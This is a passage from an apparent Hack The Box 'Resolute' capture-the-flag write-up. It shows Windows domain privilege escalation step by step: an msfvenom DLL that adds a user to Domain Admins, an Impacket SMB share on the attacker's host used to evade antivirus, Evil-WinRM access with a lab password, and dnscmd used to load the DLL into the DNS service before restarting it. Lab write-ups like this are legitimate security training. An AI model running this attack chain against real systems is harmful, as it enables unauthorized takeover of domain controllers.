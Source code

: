 Since we need to run a command to grant our user `Domain Admin` privileges we need to use the `windows/x64/exec` module. _\(Making sure to choose the right architecture. This machine is x64.\)_ The command `net group "domain admins" ryan /add /domain` will add the user `ryan` to the `domain admins` group.

```text
zweilos@kalimaa:~/htb/resolute$ msfvenom -p windows/x64/exec cmd='net group "domain admins" ryan /add /domain' --platform windows -f dll > ~/dns.dll

[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 311 bytes
Final size of dll file: 5120 bytes
```

#### Creating an SMB share from linux

I then hosted my dll on an SMB share so I could access it from the Windows machine without transferring it fand storing it on the remote disk. This is useful for loading executables directly into memory to bypass AV. The Impacket python module library has an example smbserver that is ready-made to this. I created a share named `SHARE` from my local user's home directory with `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -debug SHARE ~/`

After logging back in as `ryan` with `Evil-WinRM`,

```text
zweilos@kalimaa:~/htb/resolute$ evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i 10.10.10.169

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
```

I used the `dnscmd.exe` program to interact with the DNS service and telling it to load my crafted dll from the remote share.

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe RESOLUTE /config /serverlevelplugindll \\10.10.14.253\SHARE\dns.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

According to the article, you next have to stop and restart the DNS service. You can do this using `sc.exe`_\(Don't just type `sc` as this is an alias for `Set-Content` in Powershell and will not work.\)_

```text
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
```